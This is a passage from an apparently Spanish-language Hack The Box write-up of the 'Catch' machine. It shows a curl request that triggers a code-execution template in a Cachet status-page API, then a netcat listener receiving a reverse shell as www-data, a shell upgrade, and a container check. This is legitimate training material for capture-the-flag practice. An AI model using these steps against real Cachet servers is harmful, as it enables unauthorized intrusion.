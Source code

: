 Creo la plantilla e introduzco el payload en el mensaje

<img src="/writeups/assets/img/Catch-htb/11.png" alt="">

Cargo los datos en JSON

```null
curl -s -X POST "http://10.10.11.150:8000/api/v1/incidents" -H "X-Cachet-Token: rMSN8kJN9TPADl2cWv8N" -d 'visible=0&status=1&name=demo&template=rce' | jq
```

Gano acceso en una sesión de netcat

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.150] 41366
bash: cannot set terminal process group (27): Inappropriate ioctl for device
bash: no job control in this shell
www-data@81182d9e4b17:/var/www/html/Cachet/public$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@81182d9e4b17:/var/www/html/Cachet/public$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
www-data@81182d9e4b17:/var/www/html/Cachet/public$ export TERM=xterm
www-data@81182d9e4b17:/var/www/html/Cachet/public$ export SHELL=bash
www-data@81182d9e4b17:/var/www/html/Cachet/public$ stty rows 55 columns 209
```

Estoy dentro de un contenedor

```null
www-data@81182d9e4b17:/var/www/html/Cachet/public$ hostname -I
172.17.0.7 
```
